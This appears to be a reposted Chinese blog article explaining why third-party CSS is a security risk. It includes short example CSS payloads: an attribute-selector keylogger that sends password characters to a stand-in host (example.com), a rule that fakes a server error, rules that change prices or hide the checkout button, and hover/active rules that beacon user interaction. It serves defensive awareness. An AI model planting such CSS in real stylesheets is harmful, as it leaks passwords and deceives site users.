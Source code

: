 > 本文来自@yeaseonzhang；链接：http://yeaseonzhang.github.io/2018/04/10/%E5%88%AB%E4%BA%BA%E5%86%99%E7%9A%84css%EF%BC%8C%E4%BD%A0%E6%95%A2%E7%94%A8%E5%90%97%EF%BC%9F/

CSS能做的东西还是很多的，随着CSS Houdini（胡迪尼）的标准化，会变得更强大...

正文从这里开始 ~

为了实现高效开发，大多数时候会选择别人实现好的库/组件引用到自己的项目中，但是这样真的安全吗？

大多数web开发者认为只要不使用别人的js，安全就会有保证。Too young, too naive，殊不知“黑客”已经开始在css上做手脚了。

在浏览器设置中用户可以禁用js，但是css却是没有办法禁用的。

首先聊一聊使用第三方资源，能够造成的危害。1

## 图片

```html
<img src="https://img.com/iphone6s.jpg">
```
引用第三方图片资源，可能会出现2个问题：

- 图片资源失效
- 图片资源被替换

![201855112740](https://cdn.chenrf.com/201855112740.png)

上图展示了使用第三方图片可能带来的后果，图片资源只会影响自身的状态而不会影响其他部分。

## 脚本Javascript

```js
<script src="http://example.com/script.js"></script>
```

脚本的作用范围就不是图片能够比拟的了，脚本能够随意控制整个页面。

- 读取、篡改页面内容
- 监控用户行为
- 使用用户浏览器的算力进行挖矿
- 使用用户cookie做请求，并转发响应
- 读取、篡改浏览器storage
- More

注：storage/indexDB 如果被更改，即使删除了脚本，这些更改仍然不可逆。

只有在完全信任的情况下，才会选择加载第三方脚本。

## CSS

css在作用范围的方面更加接近于js，因为它同样是在整个页面生效。

css能在以下几个方面对页面进行操作：

- 增、删和改页面内容
- 根据页面内容发起请求
- 响应用户交互

与js相比，css不能做到的是修改storage，也不能用来挖矿。

### 键盘记录器

键盘记录器，指的是页面会记录用户的输入。目前这种行为只存在于使用React/类React框架的页面。

```css
input[type="password"][value$="p"] {
    background: url(//example.com/password?p);
}
```

如果密码输入框，输入以p结尾的密码，就会发起一个//exaple.com/password?p请求。浏览器默认不会记住input输入框的输入，这也就是为什么说这种行为只存在于使用React/类React框架的页面中，下面截取两个例子。

![201855113152](https://cdn.chenrf.com/201855113152.png)

JD主站没有使用React/类React框架，输入框的内容不会再input标签中显示value属性

![201855113214](https://cdn.chenrf.com/201855113214.png)

instagram使用的是React框架，会把输入框的内容同步显示在input的value属性中。

### 隐藏内容

通过一些技巧，将真正的页面内容不展示给用户。

```css
body {
    display: none;
}
html::after {
    content: 'HTTP 500 Server Error';
}
```

上例将真正的主体内容隐藏，展示给用户HTTP 500错误。

### 增加内容

```css
.price-value::after {
    content: '8';
}
```

![201855113428](https://cdn.chenrf.com/201855113428.png)

商品涨价了诶，估计连卖家都不知道。遇到这种情况用户一般都不会产生购买欲望了。

### 移动内容

```css
.move-purchase-button {
    opacity: 0;
    position: absolute;
    top: 100px;
    left: 100px;
}
```

![201855113518](https://cdn.chenrf.com/201855113518.png)

结算按钮被第三方css就这样搞没了，用户根本没办法完成购买行为，这种情况对电商网站很伤，导致“只能看不能买”。

### 监控用户交互

```css
.login-button:hover {
    background: url('//example.com/login-button-hover');
}
.login-button:active {
    background: url('//example.com/login-button-active');
}
```

通过上面的代码，可以用来检测用户在登录按钮的交互状态，是hover还是active(点击)，不同的状态会发送不同的请求。

如果页面中适量增加类似css代码，可以有用来做用户画像分析。

